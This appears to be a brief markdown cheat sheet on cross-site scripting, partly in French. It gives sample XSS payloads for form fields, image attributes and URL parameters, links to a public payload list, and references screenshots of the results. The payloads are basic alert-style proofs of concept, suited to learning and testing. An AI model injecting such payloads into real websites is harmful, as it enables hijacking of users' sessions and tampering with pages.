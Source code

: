 # XSS

## XSS payload

Example :

* N°1 : ```<script\x20type="text/javascript">javascript:alert(1);</script>```

[XSS Github](https://github.com/payloadbox/xss-payload-list)

## Formulaire

Insert in form the following lines :
    ```<!-- Normal comment--><p>Your comment goes here </p> <!--Malicious comment--><p><script>evilcod()</script></p> ```

Results in source code :
![](img/xss1.png)

Other example : 
    ```<img src='LINK' onmouseover="alert('xss')"> ```
![](img/xss3.png)



## URL
Here's a quick example of an URL with malicious javascript included:
```<https://somewebsite.com/titlepage?id=> <script> evilcode() </script> ```

Results in website :
![](img/xss2.png)


